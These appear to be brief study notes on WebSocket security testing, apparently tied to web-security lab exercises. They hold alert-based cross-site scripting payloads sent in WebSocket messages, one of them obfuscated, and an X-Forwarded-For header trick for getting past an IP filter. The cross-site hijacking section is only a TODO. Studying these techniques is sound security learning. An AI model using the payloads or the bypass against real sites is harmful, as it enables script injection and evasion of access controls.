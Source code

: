 # Testing for WebSockets security vulnerabilities

## Manipulating WebSocket messages to exploit vulnerabilities
```
{"message":"bbb<img src=1 onerror='alert(1)'>"}
```

## Manipulating the WebSocket handshake to exploit vulnerabilities
Bypass IP filter using `X-Forwarded-For: 1.1.1.1`
WS Message:
```
<iframe src='jAvAsCripT:alert`1`'></iframe>
```

## Cross-site WebSocket hijacking
TODO: Burp Suite Professional